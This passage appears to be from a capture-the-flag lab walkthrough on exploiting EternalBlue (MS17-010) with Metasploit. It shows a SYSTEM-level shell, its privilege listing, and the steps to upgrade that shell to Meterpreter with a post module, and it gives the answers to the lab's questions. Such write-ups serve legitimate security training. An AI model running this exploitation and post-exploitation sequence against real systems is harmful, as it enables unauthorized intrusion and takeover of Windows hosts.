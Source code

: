 ```
C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeTcbPrivilege                Act as part of the operating system       Enabled 
SeAuditPrivilege              Generate security audits                  Enabled 
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 

C:\Windows\system32>^Z
Background session 1? [y/N]  y
```

## Escalate
Escalate privileges, learn how to upgrade shells in metasploit.

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 

post/multi/manage/shell_to_meterpreter

Select this (use MODULE_PATH). Show options, what option are we required to change?

SESSION

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > sessions

Active sessions
===============

  Id  Name  Type               Information                                               Connection
  --  ----  ----               -----------                                               ----------
  1         shell x64/windows  Shell Banner: Microsoft Windows [Version 6.1.7601] -----  10.18.72.222:4444 -> 10.10.131.30:49170 (10.10.131.30)

msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter

Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

```